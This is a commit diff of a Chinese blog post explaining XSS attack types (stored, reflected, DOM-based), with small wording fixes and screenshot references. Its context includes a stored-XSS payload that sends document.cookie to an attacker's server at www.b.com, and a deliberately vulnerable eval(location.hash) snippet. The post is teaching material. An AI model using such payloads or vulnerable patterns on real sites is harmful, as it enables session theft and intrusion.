

Before and after one commit to benson-lin/benson-lin.github.io, a Jekyll site: the page built from _posts/2016-08-14-XSS-overview.md, in a window 1280 px wide and 1400 px high, scrolled down 2258 px. Shown: the whole window at 99% size, without its empty margins (203-1076 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
xss overview

````diff
--- a/_posts/2016-08-14-XSS-overview.md
+++ b/_posts/2016-08-14-XSS-overview.md
@@ -16,6 +16,7 @@
 
 
 XSS攻击发生的原因：
+
 1. 数据通过一个未信任的来源进入Web应用中，最常见的是一个web请求
 2. 数据中包含动态文本，然后发送给用户，但是没有校验恶意的文本，如velocity渲染页面
 
@@ -29,6 +30,7 @@
 **最典型的攻击场景就是留言板。**
 
 其攻击过程如下：
+
 - Bob拥有一个Web站点，该站点允许用户发布信息/浏览已发布的信息。
 - Charly注意到Bob的站点具有存储型XXS漏洞。
 - Charly发布一个包含XSS攻击脚本的热点信息，并吸引其它用户纷纷阅读。
@@ -42,6 +44,7 @@
 **最典型的攻击场景就是给个恶意链接让你去点。**
 
 其攻击过程如下：
+
 -  Alice经常浏览某个网站，此网站为Bob所拥有。Bob的站点运行Alice使用用户名/密码进行登录，并存储敏感信息（比如银行帐户信息）。
 - Charly发现Bob的站点包含反射性的XSS漏洞。
 - Charly编写一个利用漏洞的URL，并将其冒充为来自Bob的邮件发送给Alice。
@@ -84,20 +87,18 @@
 Employee Name: <%= name %>
 ```
 
-这段代码功能是显示名字,但这并没有阻止被利用。这段代码会显得更少的危险,因为名字是读取数据库的值,因为这是由应用程序管理的内容。然而,如果名字来源于用户提供的输入,那么数据库可以为恶意内容的一个渠道。没有适当的输入验证数据就存储在数据库中,攻击者可以在用户的web浏览器中执行恶意命令，也就是**存储型XSS攻击**。
+这段代码功能是显示名字,但这并没有阻止被利用。这段代码相对上一种而言危险更小,因为名字是读取数据库的值。然而,如果名字来源于用户提供的输入,那么数据库可以为恶意内容的一个渠道。没有适当的输入验证数据就存储在数据库中,攻击者可以在用户的web浏览器中执行恶意命令，也就是**存储型XSS攻击**。
 
 >
  a.com可以发文章，我登录后在a.com中发布了一篇文章，文章中包含了恶意代码，<script>window.open(“www.b.com?param=”+document.cookie)</script>，保存文章。这时Tom和Jack看到了我发布的文章，当在查看我的文章时就都中招了，他们的cookie信息都发送到了我的服务器上，攻击成功
 
 ### eg.3 DOM Based XSS
 
-`http://www.a.com/xss/domxss.htm`l代码如下：
+`http://www.a.com/xss/domxss.html`页面中代码如下：
 
 ```java
 <script>
-
 eval(location.hash.substr(1));
-
 </script>
 ```
 
@@ -118,7 +119,7 @@
 ## XSS攻击方式清单
 
 下面的清单是网上比较流行的攻击方案。
-我们从中可以看到多种多样的攻击方式，因此要防御XSS攻击需要考虑很多的情况。
+我们从中可以看到多种多样的攻击方式，因此要防御XSS攻击需要考虑很多种情况。
 
 
 ```text
````
